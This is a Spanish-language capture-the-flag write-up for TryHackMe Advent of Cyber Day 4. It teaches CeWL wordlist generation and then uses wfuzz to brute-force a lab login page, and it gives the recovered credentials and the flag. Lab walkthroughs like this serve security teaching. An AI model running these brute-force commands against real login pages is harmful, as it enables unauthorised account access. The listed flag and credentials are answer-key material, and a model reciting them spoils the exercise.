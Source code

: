 # Advent of Cyber Día 4: Brute-forcing

## Introducción

El enunciado comienza contándonos que nuestros protagonistas sufrieron un ataque de fuerza bruta y se hace énfasis en que el atacante logró su cometido muy rápidamente, casi en los primeros intentos. Nos explican que para lograr esto el atacante utilizó una *customized wordlist* y que para generarla utilizó una herramienta especialmente dedicada a eso (CeWL).

## Objetivos de aprendizaje

- Aprender sobre CeWL (se pronuncia "cool")
- Aprender las capacidades de CeWL
- Aprender a generar *custom wordlists* de una página web con CeWL
- Aprender a configurar el output para casos específicos

## CeWL

Es un generador de listados de palabras, el mismo le hace "spider" una página web para crear el listado basándose en los contenidos de la misma. Spidering en el contexto de ciberseguridad refiere al proceso de navegar automáticamente una web y catalogar su contenido, obteniendo su estructura, contenido y otros detalles relevantes. Es una herramienta muy valiosa para penetration testers, ya que encaja perfecto con la estrategia de fuerza bruta. Con el listado de palabras generado se puede hacer brute-forcing a distintas páginas de login.  
Ademas de generar listados de palabras, CeWL también compila una lista de emails y nombres de usuario identificados en los links de la página. Estos valores pueden usarse en el campo de usuario en las operaciones de fuerza bruta.

### Cómo usarlo

Para generar un listado sencillo basta con:

```ps1
cewl http://MACHINE_IP -w output.txt
```

Para ver todas las opciones disponibles:

```ps1
cewl -h
```

### Por qué usarlo

A diferencia de otras herramientas que requieren listas predefinidas o "common dictionary attacks", CeWL crea listados personalizados basados en el contenido de la página web. Ademas:

- **Listados específicos**: los listados generados son hechos específicamente para un contexto concreto (el de la página), por lo que aborda todo el vocabulario y terminología del sitio.
- **Profundidad de la búsqueda**: se puede especificar la profundidad de la búsqueda, extrayendo información no solo de una página, sino también de las páginas que tengan sus links presentes en la página principal.
- **Output personalizable**: CeWL tiene opciones para personalizar el output, algunos ejemplos son: limitar el tamaño de las palabras, quitar los números, incluir *meta tags*, etc.
- **Funcionalidades extra**: ademas de generar los listados de palabras, también es posible enumerar nombres de usuario y extraer direcciones email.
- **Eficiencia**: gracias a su personalización, CeWL permite generar listados pequeños pero mucho más relevantes.
- **Integración**: siendo una aplicación de línea de comandos, es muy simple integrarlo y compartir información con otras herramientas.
- **Activamente mantenido**: recibe actualizaciones constantemente.

### Personalizar el output

#### Profundidad de búsqueda

Supongamos que queremos que la búsqueda tenga 2 links como profundidad:

```ps1
cewl http://MACHINE_IP -d 2 -w output1.txt
```

#### Tamaño mínimo y máximo de las palabras

Supongamos que queremos palabras de entre 5 y 10 caracteres:

```ps1
cewl http://MACHINE_IP -m 5 -x 10 -w output2.txt
```

#### Autenticación

Si la página web objetivo está detrás de un login, se puede usar `-a` para una *form-based authentication*.

#### Extensiones personalizadas

La opción `--with-numbers` le agrega números al final de las palabras y la opción `--extension` le agrega una extensión personalizada.

#### Seguir links externos

Por defecto CeWL no sigue links a sitios externos, para cambiar este comportamiento hay que usar `--offsite`.

## Resolución

Se va a trabajar con la VM de THM. Hay que usar todo lo aprendido para lograr entrar en http://MACHINE_IP/login.php.

![Website](img/1.png)

### Creando un listado de contraseñas

```ps1
cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
```

![Output1](img/2.png)

### Creando un listado de usuarios

```ps1
cewl -d 0 -m 5 -w usernames.txt http://10.10.10.158/team.php --lowercase
```

![Output2](img/3.png)

### Fuerza bruta mediante wfuzz

Wfuzz es una herramienta que permite aplicarle fuerza bruta a una aplicación web. Permite encontrar recursos, directorios, scripts, aplicarle fuerza bruta a parámetros de GET y POST, aplicarle fuerza bruta a usuarios y contraseñas y fuzzing.

```ps1
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"
```

Donde:

- `-z file,usernames.txt`: carga los nombres de usuario generados por CeWL
- `-z file,passwords.txt`: carga las contraseñas generadas por CeWL
- `--hs "Please enter the correct credentials"`: oculta las respuestas que contengan el mensaje especificado
- `-u`: especifica la URL del objetivo
- `-d "username=FUZZ&password=FUZ2Z"`: especifica el formato de POST, donde `FUZZ` se reemplaza por los nombres de usuario y `FUZZ2Z`por las contraseñas.

![Output3](img/4.png)

### Respuesta

Utilizando las credenciales obtenidas ingresamos en la página y buscamos la flag. La información que nos pide THM es:

| Información       | Valor                    |
| :---------------- | :----------------------- |
| username:password | isaias:Happiness         |
| flag              | THM{m3rrY4nt4rct1crAft$} |

### [Volver a inicio](../../README.md)
